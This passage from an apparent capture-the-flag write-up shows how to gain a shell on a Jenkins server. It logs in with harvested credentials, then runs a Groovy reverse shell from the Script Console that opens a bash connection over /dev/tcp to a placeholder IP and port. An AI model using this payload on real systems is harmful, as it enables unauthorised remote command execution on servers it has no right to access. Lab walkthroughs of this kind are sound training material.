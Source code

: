 Let's login with the obatined creds at jenkins

<a href="/assets/img/thm/internal/jenkins_dashboard.png" target="_blank"><img class="centerImgLarge" src="/assets/img/thm/internal/jenkins_dashboard.png"></a>

Once logged in we can generate a reverse shell in multiple ways. One of the ways is from script console which is `Manage Jenkins > Script Console`

<a href="/assets/img/thm/internal/jenkins_sc.png" target="_blank"><img class="centerImgLarge" src="/assets/img/thm/internal/jenkins_sc.png"></a>

We can put Groovy script and run to execute it. Jenkins supports building Java projects since its inception, and for a reason! It’s both the language Jenkins is written in, plus the language in use . We can easily run a java reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and get a connection back. 

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<ip>/<port>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
